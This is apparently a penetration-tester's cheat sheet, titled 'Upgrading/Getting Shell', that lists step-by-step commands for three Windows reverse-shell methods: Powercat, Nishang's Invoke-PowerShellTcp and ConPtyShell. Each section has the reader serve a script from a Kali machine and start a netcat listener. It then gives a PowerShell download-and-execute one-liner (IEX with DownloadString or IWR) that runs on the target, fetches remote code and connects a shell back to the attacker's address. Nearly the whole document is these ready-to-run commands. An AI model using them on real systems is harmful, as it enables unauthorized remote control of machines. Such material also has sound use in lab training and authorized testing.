
# Upgrading/Getting Shell
## Powercat
- [ ] Copy and serve `powercat.ps1` on your Kali Machine
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
```

- [ ] Set up a `nc` reverse shell listener on your Kali Machine
```
nc -nlvp 4444
```

- [ ] Download and execute a powercat reverse shell on the Target Machine
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.xxx.xxx/powercat.ps1');powercat -c 192.168.xxx.xxx -p 4444 -e cmd"
```
## Nishang
- [ ] Download and serve `Invoke-PowerShellTcp.ps1` on your Kali Machine
```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

- [ ] Set up a `nc` reverse shell listener on your Kali Machine
```
nc -nlvp 4445
```

- [ ] Download and execute a nishang reverse shell on the Target Machine
```
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.xxx.xxx/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.xxx.xxx -Port 4445
```
## ConptyShell
- [ ] Download and serve `Invoke-ConPtyShell.ps1` on your Kali Machine
```
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
python3 -m http.server 80
```

- [ ] Set up a `nc` reverse shell listener on your Kali Machine
```
nc -nlvp 4446
```

- [ ] Download and execute a ConptyShell reverse shell on the Target Machine
```
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.xxx.xxx/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.xxx.xxx 4446
```
```
IEX(IWR 192.168.xxx.xxx:80/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.xxx.xxx 4446
```

